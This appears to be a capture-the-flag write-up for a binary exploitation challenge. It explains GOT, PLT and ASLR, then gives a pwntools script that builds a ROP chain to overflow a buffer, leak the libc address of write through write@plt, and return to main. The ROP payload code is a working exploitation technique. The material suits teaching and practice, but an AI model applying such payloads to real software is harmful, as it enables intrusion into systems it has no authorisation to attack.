 After some research, i understood 2 things:
- GDB addresses aren't always the same than the real program
- ASLR on the machine can happen even if the binary has no PIE

More explanations about GOT and PLT, since i might need to use them !

```
GOT, or Global Offset Table, holds addresses of functions that are dynamically linked within the binary. These are addresses that aren't known at the time the program was compiled and linked, therefore meaning they don't get resolved until the program actually runs. As such, certain function addresses are provided by a library, or in this case, by libc. The purpose of the GOT is to reduce the time needed to find calls to functions every time they're used, so rather than having to search through the libc library each time, they're stored in a table ready to be reused.

PLT, or Procedure Linkage Table, is pointed to by the GOT. The PLT is effectively a stub that then calls the dynamic linker with the name of the function that's been requested.
```

So, what we have to do is to determine the base address of glibc, since it changes on every run of the binary.

Most of the writeups i've seen uses the "puts function". The issue is that we don't have access to these functions:
```
pwndbg> plt

Section .plt 0x4004e0-0x400520:
0x4004f0: write@plt
0x400500: read@plt
0x400510: setvbuf@plt
```

Instead of puts, i'm going to use "write", since it does mostly the same, it will just require some more parameters.

So i updated my script to this:

```python
def pwn_pet_compagnion(proc):
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]

    # Find gadgets
    pop_rsi_r15_ret = rop.find_gadget(['pop rsi', 'pop r15','ret'])[0]

    # Find addresses
    write_plt = vuln_elf.plt['write']
    write_got = vuln_elf.got['write']
    main_plt = vuln_elf.symbols['main']

    # Build the ROP chain to leak libc address
    rop_chain = b""
    rop_chain += b"A" * 72   # Padding to reach RIP overwrite
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(1)  # File descriptor (stdout)
    rop_chain += p64(pop_rsi_r15_ret)  # Pop rsi; pop r15; ret
    rop_chain += p64(write_got)  # Address of write in GOT
    rop_chain += p64(0)  # Dummy value for r15
    rop_chain += p64(write_plt)  # Call to write function to leak address of write function
    rop_chain += p64(main_plt)   # Return to main

    # Send payload
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    proc.sendline(rop_chain)


    with open ('input.txt', 'wb') as out:
        out.write(rop_chain)
```